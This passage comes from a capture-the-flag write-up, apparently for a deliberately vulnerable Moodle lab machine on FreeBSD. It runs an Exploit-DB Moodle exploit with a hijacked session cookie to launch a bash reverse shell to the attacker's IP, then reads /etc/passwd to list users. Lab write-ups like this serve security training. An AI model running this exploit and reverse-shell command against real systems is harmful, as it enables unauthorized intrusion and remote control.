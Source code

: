 The exploit allows us to execute our own commands using the `-c` parameter. Make sure to repeat the XSS exploit if the cookie expires.

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50180.py http://moodle.schooled.htb/moodle --cookie i6rl3mq38rrb2se2323p2i3da9 -c "bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'"
```

![alt text](images/image-18.png)

After the execution of the exploit a reverse shell is spawned with access to the system!

![alt text](images/image-19.png)

---

## User Flag

Since we are on a FreeBSD machine, we can notice the webpage running under `/usr/local/www` instead of other common paths like `/var/www/hml`.

Trying `cd ..` throws an interesting error.

![alt text](images/image-20.png)

We can't access directories like `..` (previous directory) or `.` (current directory). We have to browse the system writing the full directory path each time, making our system search process a bit difficult.

Inside `/etc/passwd` we find two users `jamie`and `steve`

![alt text](images/image-21.png)
